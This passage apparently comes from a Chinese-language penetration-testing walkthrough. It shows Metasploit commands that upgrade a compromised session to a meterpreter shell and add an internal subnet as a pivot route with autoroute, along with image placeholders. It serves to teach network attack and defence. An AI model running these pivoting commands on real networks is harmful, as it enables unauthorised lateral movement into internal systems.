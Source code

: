 ![alt text](./image/image-32.png)

由结果可以发现新子网存在于会话7中，我们将会话7升级为meterpreter shell

```
# 将会话 7 升级为 meterpreter shell
sessions -u 7
# 新的 meterpreter shell 会话编号此处为 8
sessions -i 8
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p
#通过 background指令将其推至后台运行
```

![alt text](./image/image-33.png)

